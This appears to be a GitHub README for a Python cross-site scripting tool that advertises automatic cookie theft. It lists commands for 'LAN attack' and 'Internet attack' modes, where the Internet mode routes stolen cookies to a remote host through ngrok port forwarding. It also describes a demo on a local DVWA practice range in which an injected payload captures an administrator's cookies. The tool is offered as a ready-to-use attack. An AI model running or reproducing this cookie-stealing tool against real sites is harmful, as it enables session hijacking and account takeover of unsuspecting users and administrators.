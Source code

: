 # XSS steals cookies
* The current version is 1.0 and will be updated continuously
* Python version 3.6 or above
* Automatically steal cookies
## usage method
  * View help information

      ```#python3 XSS.py -h```
  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/Command.png "Help")  

  * LAN attack

      ```#python3 XSS.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * Here, XSS will be demonstrated in the local DVWA shooting range, and cookies will be stolen through the internet

_If your machine has a public IP address, just listen to the local port_

* Enable port forwarding (Ngrok is used for demonstration)
![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/TCP.png "Port forwarding")  
* Use Internet attack

    ```#python3 XSS.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```
 ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/PAYLOAD.png "PAYLOAD")  
Copy PAYLOAD

* Attempt to inject statement
* Administrator visits malicious page

![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/ADMIN.png "Cookie")  
